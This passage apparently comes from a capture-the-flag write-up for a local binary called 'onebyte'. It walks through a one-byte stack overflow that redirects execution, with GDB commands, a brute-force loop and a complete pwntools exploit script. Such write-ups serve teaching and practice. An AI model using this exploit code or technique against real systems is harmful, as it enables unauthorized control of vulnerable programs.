 Notice that, on each execution, the target stack address is a power of 10 in base 16: 80, e0, b0, 30, and so forth. Run it enough, and you'll get one that ends in 40, like:

```
0xff8ab340
```

We know that we can control the value of that byte. We also know that, at *main*+107, the value of the byte we send is subtracted by 4. So, if the overflow byte is *0x44* ("D"), we should be able to point to the target stack address.

Let's modify the payload and automate it in the GDB script:

```
run < <(echo 'AAAABBBBBBBBBBBBD')
```

The "D" should resolve to 0x40, thus targeting the "AAAA" on the stack. Modify the *grep* command to catch the message that displays if *0x41414141* is executed. Run this until you see results.

```
$ for i in {1..10}; do gdb -x onebyte.gdb ~/onebyte | grep '0x41414141 in \?\?'; done
0x41414141 in ?? ()
```

So, given enough iterations, we can redirect control to the stack. Further, this took fewer than 10 attempts. On average, this challenge can be completed in under 30 attempts.

The next step is replacing the target with the address of *win*.

# Solution

Here's a working solution:

```python
from pwn import *

def bruteforce(p, command) -> str:
    p.recvuntil(b"Free junk: 0x")
    init_address = int(p.recv(8).decode(), 16)
    win_address = init_address + 70
    payload = p32(win_address) + b"\x42"*12 + b"\x44"
    p.recvline()
    p.send(payload)
    p.sendline(command.encode())
    return p.recvline().decode()

if __name__ == "__main__":
    while True:
        try:
            p = process("/home/kali/onebyte", "whoami")
            flag = bruteforce(p, "whoami")
            p.close()
            if "kali" in flag:
                print(flag)
                break
        except EOFError:
            p.close()
            continue
        except KeyboardInterrupt:
            break
```
